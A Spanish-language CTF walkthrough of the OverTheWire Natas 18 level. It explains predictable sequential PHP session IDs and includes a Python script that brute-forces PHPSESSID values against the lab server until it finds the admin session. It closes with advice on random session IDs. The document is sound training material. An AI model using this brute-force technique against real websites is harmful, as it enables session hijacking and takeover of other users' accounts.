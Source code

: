 # Natas 18 – OverTheWire

La página muestra un formulario de login con campos `username` y `password`.
Si introduces credenciales incorrectas, obtienes un mensaje como:

```url
You are logged in as a regular user.
```

Pero nunca se ve la contraseña de natas19, incluso si usas el **usuario correcto**.

La pista aquí es la cookie de sesión, que cambia cada vez que nos logueamos.

## Analisis

Si inspeccionamos la cookie (DevTools → Application → Cookies), vemos algo así:

```php
PHPSESSID = 1234
```

![PHPSESSID](Assets/Natas18/PHPSESSID.png)

Cada vez que enviamos el formulario, este número cambia.
Parece que el servidor asigna un **ID de sesión numérico y secuencial.**

Eso es una **bandera roja**: si los IDs de sesión son predecibles, podemos fuerza bruta (bruteforce) todas las posibles sesiones hasta encontrar la del administrador.

### Concepto: Session Hijacking

En PHP, las sesiones guardan información temporal del usuario en el servidor, y se identifican con una cookie llamada `PHPSESSID`.
Si el servidor asigna IDs como 1, 2, 3, ... en lugar de valores aleatorios, un atacante puede probar muchos IDs hasta encontrar uno válido que pertenezca a otro usuario (por ejemplo, un administrador).

Escribimos un script en Python para iterar sobre posibles IDs de sesión y revisar la respuesta:

```python
import requests, time
from pwn import log

url = "http://natas18.natas.labs.overthewire.org"
auth = ('natas18', '<ContraseñaNatas18>')

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando ataque")
time.sleep(2)


for i in range(1, 641): 
    cookies = {'PHPSESSID': str(i)}
    r = requests.get(url, auth=auth, cookies=cookies)
    p1.status(cookies)
    if "You are an admin" in r.text:
        print(f"[+] Admin Encontrado con ID = {i}")
        print(r.text)
        break
```

La idea: probamos todas las posibles sesiones hasta que el servidor nos diga que somos admin.

Y con esto obtenemos el contenido de el apartado de administrador.

![Contraseña](Assets/Natas18/Contraseña.png)

### Concepto: ID de sesión predecible

- Los IDs de sesión deben ser **impredecibles y aleatorios**.
- Si un atacante puede adivinar o probar IDs válidos, puede **suplantar la sesión de otros usuarios.**
- Este tipo de vulnerabilidad es conocida como **Session Hijacking** o **Session Prediction**.

## Conclusion

- Las cookies de sesión son la base de la autenticación web.
- Si los IDs de sesión son secuenciales o pequeños, se pueden descubrir fácilmente.
- Siempre usar generadores criptográficamente seguros (`session_id()` en PHP lo hace por defecto, pero este reto usa una implementación manual insegura).

